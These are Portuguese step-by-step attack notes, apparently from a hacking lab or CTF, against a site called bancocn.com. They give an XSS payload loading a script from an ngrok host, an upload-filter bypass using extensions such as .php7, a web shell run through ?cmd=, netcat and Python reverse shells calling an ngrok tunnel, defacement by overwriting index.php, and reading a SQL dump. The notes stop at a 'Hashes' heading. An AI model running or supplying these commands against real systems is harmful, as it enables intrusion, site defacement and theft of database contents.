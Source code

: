 Depois colocamos na url:
www.bancocn.com/cat.php?id=2'<script src="https://d97d-45-229-123-11.ngrok-free.app/script.js"></script>

## Fazendo upload de shell
Utilizando variaveis de extensão para passar pela verificação, exemplos:
.php7
.php5
.html.php
.jpg.php

http://www.bancocn.com/admin/uploads/shell.php7?cmd=ls

## Agora vamos conectar o servidor com a nossa maquina

### Usando o netcat para ouvir a porta

Começamos com o comando:
nc -lvp 789 // no servidor do atacante

### Usando o ngrok para fazer o tunelamento

./ngrok tcp 789

url: 0.tcp.sa.ngrok.io
porta: 14328

Depois no url:
www.bancocn.com/admin/uploads/shell.php7?cmd=nc [URL] [PORTA] -e /bin/bash
www.bancocn.com/admin/uploads/shell.php7?cmd=nc 0.tcp.sa.ngrok.io 16944 -e /bin/bash

### Fazendo Reverse Python

www.bancocn.com/admin/uploads/shell.php7?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.sa.ngrok.io",17041));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

Fazer de forma interativa:

python -c "import pty;pty.spawn('/bin/bash')"

### Modificando o site

cd /var/www/html

cat index.php // ve o código do site

echo "Lucas Henrique" > index.php

### Pegando o banco de dados

cat /var/www/html/admin/uploads/bancocn.sql

### Hashes
